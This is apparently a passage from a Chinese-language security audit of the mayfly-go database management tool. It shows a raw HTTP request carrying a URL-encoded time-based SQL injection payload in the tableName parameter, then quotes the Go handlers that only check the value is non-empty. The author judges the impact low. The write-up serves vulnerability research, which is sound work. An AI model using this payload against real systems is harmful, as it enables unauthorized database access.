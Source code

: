 ```
GET /api/dbs/13/c-metadata?db=mayfly-go&id=13&tableName=t_sys_role_resource%27and%28select%2Afrom%28select%2Bsleep%280%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27 HTTP/1.1
Host: 10.211.55.3:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.9
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NjUwODAxMjcsImlkIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.qf3LuOfc7-kZYYQVXZ6TSx3CGZLXKhoN_2kG1PUGhyI
Referer: http://10.211.55.3:8888/
Accept-Encoding: gzip
```

![](../../img/mayfly-go-case/Untitled%208.png)

看下2处的代码

```go
func (d *Db) TableIndex(rc *ctx.ReqCtx) {
	tn := rc.GinCtx.Query("tableName")
	biz.NotEmpty(tn, "tableName不能为空")
	rc.ResData = d.DbApp.GetDbInstance(GetIdAndDb(rc.GinCtx)).GetMeta().GetTableIndex(tn)
}

// @router /api/db/:dbId/c-metadata [get]
func (d *Db) ColumnMA(rc *ctx.ReqCtx) {
	g := rc.GinCtx
	tn := g.Query("tableName")
	biz.NotEmpty(tn, "tableName不能为空")

	dbi := d.DbApp.GetDbInstance(GetIdAndDb(rc.GinCtx))
	biz.ErrIsNilAppendErr(d.ProjectApp.CanAccess(rc.LoginAccount.Id, dbi.ProjectId), "%s")
	rc.ResData = dbi.GetMeta().GetColumns(tn)
}
```

都是只校验不为空，无其他过滤

不过这个后台功能点本身就是对添加的数据源进行sql查询，这个注入点也是影响数据源而不是平台本身，也没啥危害。
